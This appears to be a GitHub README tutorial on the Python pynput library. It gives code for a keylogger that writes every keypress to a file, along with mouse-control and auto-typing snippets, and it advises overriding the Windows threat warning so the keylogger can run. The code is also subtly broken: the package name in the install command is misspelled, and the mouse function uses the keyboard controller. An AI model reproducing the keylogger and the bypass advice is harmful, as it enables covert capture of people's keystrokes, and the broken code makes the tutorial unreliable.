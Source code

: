 # Lab & Test 

The Plugin I used for pynput for Python. This pluggin allows you to keylog user inputs at all times, set positions of your mouse and automatically type for you (copy and paste)

First we will install the pluggin
```
pip install pyntput
```
Then in Notepad or Visual Studios import the pluggins
```
from pynput import keyboard
from pynput import mouse
from pynput.keyboard import Controller
```
To Set up Keylogging we will use this code

```
def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
            try:
                char = key.char
                logKey.write(char)
            except:
                   print("Error getting Characters") 
if __name__ == "__main__":  
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
```
This code will allow keylogging ,But you will need to go to windows settings to allow this Windows threat to go through to produce a keylog file also.


Secondly, We will create Mouse control in which this code will position your mouse in certain location on your screen

```
def controlMouse():
    mouse = Controller()
    mouse.position = (10,20)

```
Then you these lines to output text on your screen
```
def controlKeyboard():
    keyboard = Controller()
    keyboard.type ("Magic just occurred  ")

controlKeyboard()  


```
